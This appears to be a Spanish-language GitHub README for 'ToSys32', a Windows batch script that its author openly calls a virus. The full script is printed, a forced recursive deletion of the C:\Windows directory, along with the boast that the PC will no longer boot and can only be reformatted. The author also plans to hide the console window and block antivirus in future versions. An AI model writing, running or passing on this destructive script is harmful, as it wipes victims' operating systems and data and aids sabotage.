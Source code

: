 # ToSys32
Lo que realiza este scrip es borrar todos los archivos necesarios para que windows funcione (este mismo no afecta a linux) tambien borra el panel de control y el administrador de tareas para evitar detenerlo haun haci se puede detener facilmente solo con cerra la ventana de cmd que se abre al ejecutarlo (en proximas versiones se ocultara la ventana y se bloquearan los antivirus).

EL SCRIP QUE CONTIENE EL VIRUS ES EL SIGUIENTE:

@ echo off
title adi00s wind0w5
echo 4di05 a tu wind0w5
del/s/f/q C:\Windows
exit﻿

Este scrip es un simple comando de windows que al ejecutarlo hace que windows falle e incluso tiene la capacidad de borrar algunos drivers.Despues de ejecutarlo y apagar,reinicar,suspender windows la pc ya no volvera a iniciar windows Hasta este punto lo unico que se pude hacer es formatear.
